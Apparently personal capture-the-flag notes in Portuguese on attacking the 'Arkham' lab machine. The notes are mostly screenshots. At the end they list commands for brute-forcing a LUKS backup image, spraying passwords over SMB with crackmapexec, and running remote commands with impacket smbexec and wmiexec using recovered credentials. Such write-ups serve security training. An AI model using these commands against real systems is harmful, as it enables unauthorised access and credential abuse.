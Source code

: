 Arkham
========================
![qownnotes-media-oqJdew](../../../media/qownnotes-media-oqJdew.png)

![qownnotes-media-YQjqdu](../../../media/qownnotes-media-YQjqdu.png)

![qownnotes-media-QqAsKE](../../../media/qownnotes-media-QqAsKE.png)


![qownnotes-media-JIANno](../../../media/qownnotes-media-JIANno.png)

SMB Enumeration

**ATENÇÃO A ESTE PONTO***

![qownnotes-media-HlFgbt](../../../media/qownnotes-media-HlFgbt.png)



RPC Enumeration

![qownnotes-media-zsCGWR](../../../media/qownnotes-media-zsCGWR.png)

Nikto

Port 8080

![qownnotes-media-kUGUDN](../../../media/qownnotes-media-kUGUDN.png)

Algumas tentativas:

![qownnotes-media-syNLdJ](../../../media/qownnotes-media-syNLdJ.png)


Porta 80 não vale a pena continuar a olhar...


Neste caso sobraram alguns vetores de ataque somente. SMB com o null session e a porta 8080

Alguns testes nessa porta 8080

![qownnotes-media-ixYOFj](../../../media/qownnotes-media-ixYOFj.png)

![qownnotes-media-PwFwQG](../../../media/qownnotes-media-PwFwQG.png)

Retomando quanto ao volume criptografado eu executei um comando aqui para tentar decriptá-lo, porém até então, sem sucesso.


https://github.com/Diverto/cryptsetup-pwguess/releases/tag/v1.0.0

![qownnotes-media-tUcuaE](../../../media/qownnotes-media-tUcuaE.png)

    ./bruteforce-luks-static-linux-amd64 -t 4 -f wordlist_batman_temp.txt backup.img

![qownnotes-media-VlJtTD](../../../media/qownnotes-media-VlJtTD.png)



    crackmapexec smb 10.10.10.130 -u usernames_temp.txt -p passwords_temp.txt
 
 ![qownnotes-media-aTDifR](../../../media/qownnotes-media-aTDifR.png)


    crackmapexec smb 10.10.10.130 -u bruce -p batmanforever --exec-method smbexec -X 'whoami'
    impacket-smbexec 'AKHAM\bruce:batmanforever@10.10.10.130'
    impacket-wmiexec 'AKHAM\bruce:batmanforever@10.10.10.130'
    impacket-wmiexec 'AKHAM\joker@10.10.10.130'
    impacket-smbexec 'bruce:batmanforever@10.10.10.130'
    impacket-wmiexec 'bruce:batmanforever@10.10.10.130'

